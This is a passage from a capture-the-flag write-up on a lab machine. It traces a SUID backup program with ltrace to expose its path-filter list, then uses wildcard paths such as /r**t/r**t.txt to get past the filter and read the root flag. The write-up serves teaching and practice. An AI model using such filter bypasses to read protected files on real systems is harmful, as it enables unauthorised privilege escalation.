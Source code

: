 Something in the backup file is intentionally preventing us from getting the root flag. Let’s run the ltrace program to see what system commands are getting called when we run the backup program.

```text
ltrace /usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /../../etc > test
```

We get back the following result.

```text
strstr("/tmp", "..")                             = nil
strstr("/tmp", "/root")                          = nil
strchr("/tmp", ';')                              = nil
strchr("/tmp", '&')                              = nil
strchr("/tmp", '`')                              = nil
strchr("/tmp", '$')                              = nil
strchr("/tmp", '|')                              = nil
strstr("/tmp", "//")                             = nil
strcmp("/tmp", "/")                              = 1
strstr("/tmp", "/etc")                           = nil
strcpy(0xff98a1ab, "/tmp")                       = 0xff98a1ab
```

Let’s look up what the functions do.

* **strstr:** returns pointer to first occurrence of str2 in str1
* **strchr:** returns pointer to first occurrence of char in str1
* **strcmp: r**eturns 0 if str1 is same as str2

As can be seen, the program is filtering the directory path string. If we include any of the strings enclosed in the strchr or strstr function as a directory path, we end up with a troll face. Similarly, if the directory path is a single “/”, we also get a troll face. So we’re allowed to use a backslash as long as it’s included as a string with other characters.

**Note:** There are several methods we can use apply on the backup program in order to escalate privileges. I initially solved it using method 1 & method 2, however, after I watched [ippsec](https://www.youtube.com/watch?v=sW10TlZF62w)’s video, I found out there were other ways to escalate privileges \(methods 3, 4 & 5\).

**Method 1 — Using Wildcards**

The \* character is not filtered in the program, therefore we can use it to make a backup of the root directory.

```text
/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /r**t/r**t.txt > root
```

Then use the same method to base64 decode and compress the file to view the flag.

![](../images/max/629/1*F02qM-0wEgiCCrk8oS5Myw.png)
